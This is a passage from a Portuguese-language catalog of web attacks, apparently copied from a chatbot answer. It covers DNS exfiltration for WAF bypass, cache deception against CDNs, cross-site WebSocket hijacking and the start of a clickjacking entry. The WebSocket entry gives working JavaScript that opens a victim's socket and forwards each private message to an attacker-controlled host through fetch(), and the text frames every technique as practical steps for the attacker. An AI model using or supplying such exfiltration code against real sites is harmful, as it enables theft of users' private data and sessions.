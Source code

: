 Atacante recebe o dado exfiltrado via log DNS.

Realidade:

Muito usado para contornar WAFs ou bypassar sistemas blindados.

6. Cache Deception Attack
O que o atacante precisa:

O site tem cache de conteúdo habilitado (CDN, proxies, etc).

Saber como forçar o cache de uma resposta autenticada.

Ação prática:

Acessa uma URL sensível como:

ruby
Copiar
Editar
https://victim.com/account/login/fake.jpg
Se o servidor ou CDN cachear a resposta, o atacante pode depois acessar o mesmo URL e receber dados de outro usuário.

Realidade:

Muito explorado com Akamai, Cloudflare mal configurados.

7. Cross-Site WebSocket Hijacking (CSWSH)
O que o atacante precisa:

Saber a URL do WebSocket (wss://).

Conseguir enganar um usuário logado para abrir o seu site (engenharia social).

Ação prática:

Cria um site malicioso com código:

javascript
Copiar
Editar
var ws = new WebSocket('wss://victim.com/socket');
ws.onmessage = function(msg){
  fetch('https://attacker.com/steal?data='+msg.data)
}
Vítima abre o site do atacante enquanto logada no app.

WebSocket conecta automaticamente e rouba mensagens privadas.

Realidade:

Muito comum em apps que usam WebSockets sem autenticação por token/cookie.

8. Clickjacking + Frame Injection
O que o atacante precisa:

Que o site alvo não tenha cabeçalho de proteção X-Frame-Options: DENY ou CSP: frame-ancestors 'none'.

Criar uma página fake.
